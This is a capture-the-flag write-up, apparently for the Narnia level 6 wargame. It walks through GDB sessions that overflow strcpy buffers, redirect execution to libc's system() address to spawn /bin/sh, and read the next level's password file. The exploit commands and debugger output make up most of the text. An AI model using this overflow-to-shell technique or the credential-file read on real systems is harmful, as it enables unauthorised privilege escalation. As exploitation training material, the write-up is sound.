 This was an interesting challenge, we have can see that there are two buffers, b1 and b2, which are both defined at 8 bytes in size. What causes this to be interesting is the fact two arguements are respectively entered into the buffers using the strcpy() function. The strcpy() is a function known for causing potential buffer overflows in programs and have been the focus of vulnerabilities in previous challenges. Let’s see if we can cause a crash in the application.

```
(gdb) r $(python -c'print("A"*8)') $(python -c'print("B"*8)')
Starting program: /games/narnia/narnia6 $(python -c'print("A"*8)') $(python -c'print("B"*8)')
 
Program received signal SIGSEGV, Segmentation fault.
0x08048304 in ?? ()
(gdb) x/50wx $esp
0xffffd6bc:     0x08048647      0xffffd6f0      0xffffd8fc      0x00000021
0xffffd6cc:     0x08048399      0xf7fcf3e4      0x00008000      0x08049910
0xffffd6dc:     0xffffffff      0xffffffff      0xf7e5f116      0x42424242
0xffffd6ec:     0x42424242      0x41414100      0x41414141      0x08048300 <- Gain control of EIP register here.
0xffffd6fc:     0x00000003 <-   0x08048660      0x00000000      0x00000000 -- The point the application crashes.
0xffffd70c:     0xf7e454b3      0x00000003      0xffffd7a4      0xffffd7b4
0xffffd71c:     0xf7fd3000      0x00000000      0xffffd71c      0xffffd7b4
0xffffd72c:     0x00000000      0x08048280      0xf7fceff4      0x00000000
0xffffd73c:     0x00000000      0x00000000      0x69ae1f2f      0x5ea8db3f
0xffffd74c:     0x00000000      0x00000000      0x00000000      0x00000003
0xffffd75c:     0x08048420      0x00000000      0xf7ff0a90      0xf7e453c9
0xffffd76c:     0xf7ffcff4      0x00000003      0x08048420      0x00000000
0xffffd77c:     0x08048441      0x080484d4
```

When I ran the application with the 2 arguements passed to the application of both 8 bytes in length caused a crash an application. In the above output from GDB I have pointed at the positions which the EIP register is overwritten and control is of execution can be gained. The next step I took was to confirm that I could overwrite the position on the stack would allow me to gain control of the EIP register.

```
(gdb) r $(python -c'print("A"*8 + "B"*4 + "C"*4)') $(python -c'print("D"*8)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 
Starting program: /games/narnia/narnia6 $(python -c'print("A"*8 + "B"*4 + "C"*4)') $(python -c'print("D"*8)')
 
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/50wx $esp
0xffffd6bc:     0x08048647      0xffffd6f0      0xffffd8fc      0x00000021
0xffffd6cc:     0x08048399      0xf7fcf3e4      0x00008000      0x08049910
0xffffd6dc:     0xffffffff      0xffffffff      0xf7e5f116      0x44444444
0xffffd6ec:     0x44444444      0x41414100      0x41414141      0x42424242 <- 4 Bytes that overwrite the EIP register
0xffffd6fc:     0x43434343      0x08048600      0x00000000      0x00000000
0xffffd70c:     0xf7e454b3      0x00000003      0xffffd7a4      0xffffd7b4
0xffffd71c:     0xf7fd3000      0x00000000      0xffffd71c      0xffffd7b4
0xffffd72c:     0x00000000      0x08048280      0xf7fceff4      0x00000000
0xffffd73c:     0x00000000      0x00000000      0x2362dbf1      0x14641fe1
0xffffd74c:     0x00000000      0x00000000      0x00000000      0x00000003
0xffffd75c:     0x08048420      0x00000000      0xf7ff0a90      0xf7e453c9
0xffffd76c:     0xf7ffcff4      0x00000003      0x08048420      0x00000000
0xffffd77c:     0x08048441      0x080484d4
```

It was successfully confirmed that I could overwrite the EIP register. Now the question was how could I actually gain a shell for the next level. With control of the EIP register, I began thinking of how to gain full control. I couldn’t use placing the shellcode into an environment variable and then just overwritting the EIP register with the hardcoded location of the start of my shell. This was because part of the code has been written to clear the system’s environmental variables, just like in the Narnia 4 challenge. So because of this I also figured maybe the solution I used in Narnia 4 could be the solution for this level as well, where I pass the shellcode to the application as part of the arguement. So I decided I should test this theory out.

```
(gdb) r $(python -c'print("A"*8 + "\x90"*8 + "B"*4)') $(python -c'print("D"*8)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 
Starting program: /games/narnia/narnia6 $(python -c'print("A"*8 + "\x90"*8 + "B"*4)') $(python -c'print("D"*8)')
 
Program received signal SIGSEGV, Segmentation fault.
0x90909090 in ?? ()
(gdb) x/50wx $esp
0xffffd6bc:     0x08048647      0xffffd6f0      0xffffd8fc      0x00000021
0xffffd6cc:     0x08048399      0xf7fcf3e4      0x00008000      0x08049910
0xffffd6dc:     0xffffffff      0xffffffff      0xf7e5f116      0x44444444
0xffffd6ec:     0x44444444      0x41414100      0x41414141      0x90909090
0xffffd6fc:     0x90909090      0x42424242      0x00000000      0x00000000
0xffffd70c:     0xf7e454b3      0x00000003      0xffffd7a4      0xffffd7b4
0xffffd71c:     0xf7fd3000      0x00000000      0xffffd71c      0xffffd7b4
0xffffd72c:     0x00000000      0x08048280      0xf7fceff4      0x00000000
0xffffd73c:     0x00000000      0x00000000      0x58c634fc      0x6fc0f0ec
0xffffd74c:     0x00000000      0x00000000      0x00000000      0x00000003
0xffffd75c:     0x08048420      0x00000000      0xf7ff0a90      0xf7e453c9
0xffffd76c:     0xf7ffcff4      0x00000003      0x08048420      0x00000000
0xffffd77c:     0x08048441      0x080484d4
(gdb) r $(python -c'print("A"*8 + "\xfc\xd6\xff\xff" + "\x90"*4)') $(python -c'print("D"*8)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 
Starting program: /games/narnia/narnia6 $(python -c'print("A"*8 + "\xfc\xd6\xff\xff" + "\x90"*4)') $(python -c'print("D"*8)')
[Inferior 1 (process 3033) exited with code 0377]
```

So I can’t place my shellcode as part of the arguement but it appears I have to have a valid memory address overwrite the EIP register. So at this point in time I decided I needed to try and find a way to get a command (/bin/sh) that I pass to the application to be executed, and then I realised the stdlib.h is included in the binary. This is useful to us because after the binary begins to execute the system() function is loaded, since it is part of the stdlib.h.

http://www.cplusplus.com/reference/cstdlib/system/

So to find out the memory location of the system() function, I decided the quickest way would to debug the binary with GDB and placing a breakpoint on the main function and run the application. As soon as the breakpoint on main() is hit, the stdlib.h would’ve been loaded which means I would be able to put a breakpoint on the system() function and identify the memory address that way.

```
narnia6@melinda:/narnia$ gdb -q ./narnia6
Reading symbols from /games/narnia/narnia6...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x80484d8
(gdb) r a b
Starting program: /games/narnia/narnia6 a b
 
Breakpoint 1, 0x080484d8 in main ()
(gdb) break system
Breakpoint 2 at 0xf7e6b250
(gdb) r $(python -c'print("A"*8 + "\x50\xb2\xe6\xf7")') $(python -c'print("B"*8)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 
Starting program: /games/narnia/narnia6 $(python -c'print("A"*8 + "\x50\xb2\xe6\xf7")') $(python -c'print("B"*8)')
 
Breakpoint 1, 0x080484d8 in main ()
(gdb) c
Continuing.
 
Breakpoint 2, 0xf7e6b250 in system () from /lib32/libc.so.6
```
As you can see in the above GDB debugging output, I was able to identify that the system() function is located in memory at 0xf7e6b250 and I was able to jump to gain control of the application and jump to that location as well. And with that all confirmed, we just need to add the command to be executed to the arguement strings and pass it to the binary.

```
narnia6@melinda:/narnia$ ./narnia6 $(python -c'print("A"*8 + "\x50\xb2\xe6\xf7")') $(python -c'print("B"*8 + "/bin/sh")')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
```
